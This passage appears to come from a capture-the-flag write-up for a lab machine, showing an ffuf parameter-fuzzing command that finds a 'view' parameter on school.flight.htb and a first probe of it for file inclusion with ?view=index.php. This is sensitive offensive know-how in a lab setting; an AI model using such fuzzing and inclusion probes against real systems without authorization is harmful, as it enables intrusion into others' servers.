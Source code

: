 <img src="/assets/img/flight/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">

Found a **view** parameter via GET requests.

```bash
ffuf -u "http://school.flight.htb?FUZZ=key" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fc 403 -fs 3996
view        [Status: 200, Size: 1102, Words: 144, Lines: 31, Duration: 66ms]
```

# Exploitation

The parameter is not properly sanitized XD.

```
http://school.flight.htb/?view=index.php
```

<img src="/assets/img/flight/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">
